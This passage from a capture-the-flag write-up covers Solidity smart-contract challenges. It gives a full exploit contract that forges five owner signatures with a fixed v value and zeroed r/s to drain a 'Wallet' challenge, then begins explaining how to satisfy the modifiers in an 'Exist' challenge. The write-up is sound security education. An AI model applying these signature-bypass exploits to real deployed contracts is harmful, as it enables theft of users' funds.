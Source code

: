 ```solidity
contract Exploit {
    function exploit(address instanceAddress) public {
        Wallet wallet = Wallet(instanceAddress);

        address[] memory owners = new address[](5);
        owners[0] = address(0x5B38Da6a701c568545dCfcB03FcB875f56beddC4);
        owners[1] = address(0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2);
        owners[2] = address(0x4B20993Bc481177ec7E8f571ceCaE8A9e22C02db);
        owners[3] = address(0x78731D3Ca6b7E34aC0F824c42a7cC18A495cabaB);
        owners[4] = address(0x617F2E2fD72FD9D5503197092aC168c91465E7f2);

        uint256 amount = 100 * 10 ** 18;
        address to = address(0x1337);

        SignedByowner[] memory signs = new SignedByowner[](5);
        for (uint256 i = 0; i < 5; i++) {
            signs[i] = SignedByowner(Holder(owners[i], "", true, ""), Signature(17, [bytes32(0), bytes32(0)]));
        }

        wallet.transferWithSign(address(this), 100 * 10 ** 18, signs);
    }
}
```

Flag: `0x4c7d8e17af758ca5204f61c16ea4353387352aeb`

### Exist

[Source](Exist)

>Was vernünftig ist, das ist wirklich; und was wirklich ist, das ist vernünftig. ——G. W. F. Hegel

The goal of this challenge is to set `flag` to `true` by executing the following `setflag` function.

```solidity
    function setflag() external {
        if (balanceOf[msg.sender] >= totalSupply) {
            flag = true;
        }
    }
```

To set `flag` to `true`, the token balance of `msg.sender` needs to be greater than or equal to `totalSupply`. The following `share_my_valut` can be used to satisfy this.

```solidity
    function share_my_vault() external only_EOA(msg.sender) only_family {
        uint256 add = balanceOf[address(this)];
        _transfer(address(this), msg.sender, add);
    }
```

This function can only be called from EOAs and must meet the condition of the `only_family` modifier. The `only_family` modifier executes the following `is_my_family` function with `msg.sender` as an argument.
